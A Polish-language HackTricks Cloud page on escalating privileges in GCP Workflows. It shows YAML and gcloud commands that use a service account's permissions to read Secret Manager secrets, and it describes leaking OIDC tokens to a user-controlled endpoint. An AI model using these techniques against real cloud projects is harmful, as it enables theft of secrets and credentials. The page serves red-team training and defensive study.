 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Podstawowe informacje:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Z tego co wiem, nie jest możliwe uzyskanie powłoki z dostępem do punktu końcowego metadanych zawierającego dane uwierzytelniające SA przypisanego do Workflow. Jednak możliwe jest nadużycie uprawnień SA, dodając działania do wykonania wewnątrz Workflow.

Możliwe jest znalezienie dokumentacji konektorów. Na przykład, oto [**strona konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** W pasku bocznym można znaleźć kilka innych konektorów.

A tutaj można znaleźć przykład konektora, który drukuje sekret:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualizacja z CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Jeśli otrzymasz błąd taki jak `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, po prostu **poczekaj minutę i spróbuj ponownie**.

Jeśli nie masz dostępu do sieci, możliwe jest wywołanie i zobaczenie wykonania Workflow za pomocą:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Możesz również sprawdzić wyniki wcześniejszych wykonania, aby poszukać wrażliwych informacji
{% endhint %}

Zauważ, że nawet jeśli otrzymasz błąd taki jak `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` ponieważ nie masz tej zgody, workflow został wygenerowany.

### Wyciekanie tokena OIDC (i OAuth?)

Zgodnie z [**dokumentacją**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) możliwe jest użycie kroków workflow, które wyślą żądanie HTTP z tokenem OAuth lub OIDC. Jednak, podobnie jak w przypadku [Cloud Scheduler](gcp-cloudscheduler-privesc.md), żądanie HTTP z tokenem Oauth musi być skierowane do hosta `.googleapis.com`.

{% hint style="danger" %}
Dlatego **możliwe jest wyciekanie tokena OIDC poprzez wskazanie punktu końcowego HTTP** kontrolowanego przez użytkownika, ale aby wyciekać **token OAuth**, potrzebujesz **obejścia** tej ochrony. Jednak nadal możesz **kontaktować się z dowolnym API GCP, aby wykonywać działania w imieniu SA** za pomocą konektorów lub żądań HTTP z tokenem OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Dzięki temu uprawnieniu, zamiast `workflows.workflows.create`, możliwe jest zaktualizowanie już istniejącego workflow i przeprowadzenie tych samych ataków.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
